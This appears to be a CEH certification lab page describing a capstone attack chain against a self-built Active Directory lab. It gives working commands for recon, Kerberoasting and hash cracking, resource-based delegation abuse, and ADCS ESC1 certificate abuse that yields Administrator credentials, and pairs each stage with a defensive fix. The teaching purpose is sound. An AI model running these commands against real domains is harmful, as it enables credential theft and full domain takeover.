

repository: morandeirachema/CyberCerts · page: certs/ceh/labs/capstone/index.html · generator: mkdocs

# Capstone — Full Attack Chain Against the AD/PAM Lab

> Chains the modules into one end-to-end engagement against **your own lab** ([topology](topology.md)) — the way the CEH Practical and real assessments test you. Every stage ends with the **PAM fix**: apply it, re-run, and watch the "win" become a logged, contained "loss." **Lab only.**

**Targets:** Kali `192.168.56.10` · DC/CA `dc01` `192.168.56.30` (`ceh.lab`) · member `ws01` `192.168.56.31`. Provision with [`ansible/ad-lab.yml`](ansible/ad-lab.yml).

```mermaid
flowchart LR
    R["1. Recon<br/>M02"] --> E["2. Enum<br/>M04"] --> K["3. Kerberoast<br/>M06"]
    K --> L["4. Lateral / RBCD<br/>M06"] --> C["5. ADCS ESC1<br/>identity paths"]
    C --> D["6. DCSync<br/>M06"] --> T["7. Cover tracks<br/>M06"]
```

Foothold: start as the low-priv user **`jdoe`** (credential given for the exercise, as in an assumed-breach test).

---

## Stage 1 — Recon & Enumeration (M02 / M04)
```bash
nmap -sV -p88,135,139,389,445,636,3268,5985 192.168.56.30
enum4linux-ng -A 192.168.56.30
nxc smb 192.168.56.30 -u jdoe -p 'Passw0rd!' --users --groups
nxc ldap 192.168.56.30 -u jdoe -p 'Passw0rd!' --bloodhound -c all --dns-server 192.168.56.30
```
**Get:** domain users, groups, the `svc-sql` SPN, and a BloodHound graph. **Look for:** `jdoe`'s `GenericWrite` on `ws01`, `ws01` unconstrained-delegation flag, and the SPN account — the paths the lab planted.
> **Fix to note:** restrict directory read scope; DAI/least-privilege recon detection.

## Stage 2 — Kerberoast `svc-sql`, prove gMSA is immune (M06)
```bash
impacket-GetUserSPNs ceh.lab/jdoe:'Passw0rd!' -dc-ip 192.168.56.30 -request -outputfile kerb.txt
hashcat -m 13100 kerb.txt /usr/share/wordlists/rockyou.txt      # svc-sql cracks
impacket-GetUserSPNs ceh.lab/jdoe:'Passw0rd!' -dc-ip 192.168.56.30 -request-user gmsa-web
```
**Observe:** `svc-sql` cracks; the **gMSA** (`gmsa-web`) returns a ticket you **cannot** crack.
> **Fix (already shown):** convert SPN accounts to **gMSA** / CPM-rotated passwords, AES-only. Detection: `4769` RC4 for SPNs.

## Stage 3 — Delegation abuse via RBCD (identity paths)
`jdoe` has `GenericWrite` on `ws01`, so set resource-based constrained delegation and impersonate:
```bash
impacket-rbcd ceh.lab/jdoe:'Passw0rd!' -delegate-to 'ws01$' -action write -dc-ip 192.168.56.30 -use-sid <attacker_computer_sid>
impacket-getST ceh.lab/<attacker_machine>:'<pw>' -spn cifs/ws01.ceh.lab -impersonate Administrator -dc-ip 192.168.56.30
```
**Observe:** you mint a service ticket **as Administrator to `ws01`** → lateral movement.
> **Fix:** remove write on computer attributes for low-priv users; tier admin; monitor `5136` on `msDS-AllowedToActOnBehalfOfOtherIdentity`.

## Stage 4 — ADCS ESC1 → domain privilege (identity paths)
```bash
certipy find -u jdoe@ceh.lab -p 'Passw0rd!' -dc-ip 192.168.56.30 -vulnerable -stdout
certipy req -u jdoe@ceh.lab -p 'Passw0rd!' -ca <CA-name> -template ESC1-Vuln -upn administrator@ceh.lab -dc-ip 192.168.56.30
certipy auth -pfx administrator.pfx -dc-ip 192.168.56.30          # -> TGT / NT hash as Administrator
```
**Observe:** a low-priv user requests a cert **as Administrator** and authenticates with it — persistence that **survives password rotation**.
> **Fix:** remove the SAN-supply flag, require manager approval, tighten template + CA ACLs. `certipy find` in audit mode proves the fix.
